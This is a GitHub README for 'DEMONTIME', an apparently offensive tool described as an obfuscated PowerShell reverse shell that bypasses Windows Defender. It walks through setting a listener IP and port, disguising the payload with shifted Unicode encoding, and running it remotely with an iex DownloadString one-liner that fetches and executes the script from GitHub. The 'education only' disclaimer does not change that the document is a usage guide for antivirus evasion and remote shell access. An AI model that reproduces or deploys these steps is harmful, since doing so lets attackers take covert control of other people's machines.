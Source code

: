 <h1>DEMONTIME</h1>

<h3>Heavily obfuscated PowerShell reverse shell that can bypass Windows Defender</h3>

![image](https://github.com/aaronquiamco/demontime/assets/59388557/5958a915-6c07-42d4-8dda-dcc14cd0d9b4)



⚠️ Disclaimer: Employing the methods and principles outlined in this repository to obtain unauthorized entry into systems without proper authorization is against the law. You are accountable for your conduct. Act responsibly and refrain from engaging in malicious activities. This is for education purposes only


<h2>Instructions</h2>

1. Edit the Obfuscated PowerShell reverse shell one liner script with your chosen listener IP Address and Port number.

   
![image](https://github.com/aaronquiamco/experiment/assets/59388557/2f24cc8b-af55-429a-a7ac-97786da28d29)

2. Use the Python script to convert the PowerShell reverse shell one liner characters to its Unicode format. Every unicode decimal on the output already has +10 added from its original form. The PowerShell script (demontime-template.ps1) will then subtract 10 on each of those unicode from the array to convert it back to its original unicode form.


![image](https://github.com/aaronquiamco/experiment/assets/59388557/ad971d49-e938-491b-92d8-27838499b5fa)

3. Replace the Unicode payload on the demontime-template.ps1 script with the output generated from the Python script.

**NOTE: You can also use the Obfuscated PowerShell reverse shell one liner template alone if you wanted to. This also bypasses Windows Defender but if you wanted to add more obfuscation, you can convert the characters to unicode using the supplied Python script.** 

**Optional**

Fork this repo so you can run the following one liner with your own IP Address and Port number straight from Github:


**NOTE: Replace the URL with your own forked repo.** 

```iex -Debug -Verbose -ErrorVariable $e -InformationAction Ignore -WarningAction Inquire (New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/xxxxxx/experiment/main/demontime-template.ps1')```



![image](https://github.com/aaronquiamco/demontime/assets/59388557/e651c43a-6868-4124-ba6f-d3beaaf192bb)
